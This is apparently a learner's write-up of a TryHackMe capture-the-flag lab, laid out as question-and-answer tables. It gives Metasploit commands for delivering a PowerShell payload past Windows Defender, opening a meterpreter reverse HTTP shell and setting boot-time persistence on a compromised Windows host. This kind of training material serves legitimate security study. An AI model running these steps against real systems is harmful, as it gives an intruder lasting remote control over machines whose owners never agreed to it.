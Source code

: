 Now that we've thoroughly compromised our target machine, let's return to our exploitation tools so that we can gain remote shell access and persistence.

  

![](https://i.imgur.com/1LzGblJ.jpg)  

Answer the questions below


| Question                                                                                                                                                                                                                                                                                                                                  | Answer                            | SS                                   |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------- | ------------------------------------ |
| Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use. | exploit/multi/script/web_delivery | ![[Pasted image 20240314225630.png]] |
```
exploit/multi/script/web_delivery
```


| Question                                                                     | Answer | SS                                   |
| ---------------------------------------------------------------------------- | ------ | ------------------------------------ |
| First, let's set the target to PSH (PowerShell). Which target number is PSH? | 2      | ![[Pasted image 20240314225839.png]] |



| Question                                                                                                                                                                                 | Answer           | SS                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network. | No answer needed | ![[Pasted image 20240314230036.png]] |



| Question                                                                                                                                                                                                                                        | Answer           | SS  |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | --- |
| Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'. | No answer needed | ![[Pasted image 20240314231522.png]]    |
```
set payload windows/meterpreter/reverse_http
```
```
run -j
```

| Question                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Answer           | SS                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | ------------------------------------ |
| Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. | No answer needed | ![[Pasted image 20240314232037.png]] |
![[Pasted image 20240314232120.png]]

![[Pasted image 20240315192815.png]]


| Question                                                                                                                                                                                                                                                                                     | Answer             | SS                                   |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------ | ------------------------------------ |
| Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. | run persistence -X | ![[Pasted image 20240315193118.png]] |
```
run persistence -h
```



| Question                                                                                                                                                                                                                                                                                                                                                   | Answer           | SS  |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------- | --- |
| Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations! | No answer needed |     |
